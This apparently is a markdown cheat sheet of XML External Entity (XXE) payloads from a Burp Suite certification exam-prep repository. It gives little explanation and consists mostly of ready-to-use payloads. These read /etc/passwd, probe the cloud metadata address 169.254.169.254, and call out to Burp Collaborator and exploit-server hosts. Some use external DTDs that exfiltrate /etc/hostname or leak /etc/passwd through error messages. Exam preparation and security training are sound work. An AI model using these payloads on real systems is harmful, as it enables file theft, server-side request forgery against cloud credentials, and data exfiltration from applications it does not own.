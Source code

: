 # XXE



1. payload
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```


2.Payload

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>

```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/XXE-2.jpg)

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/XXE-3.jpg)

3.Payload


```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://312d7f49j37e6gjy10vxd8qvhmndb3zs.oastify.com"> ]>

<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>

```


4.Payload
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://435e9g6al49f8hlz31xyf9swjnped51u.oastify.com"> %xxe; ]>

<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```


5.Payload

```
Place the Burp Collaborator payload into a malicious DTD file:
Path : https://exploiturl.com/exploit.dtd

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;



__________________________________________________________

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-server.net/exploit.dtd"> %xxe;]>

```


6.Payload

```

Exploit server :

<!ENTITY % filepass SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; errorabc SYSTEM 'file:///invalid/%filepass;'>">
%eval;
%errorabc;


________________________________________________________________

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a63005a0340421581be65cf019500c8.exploit-server.net/exploit"> %xxe;]>

<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```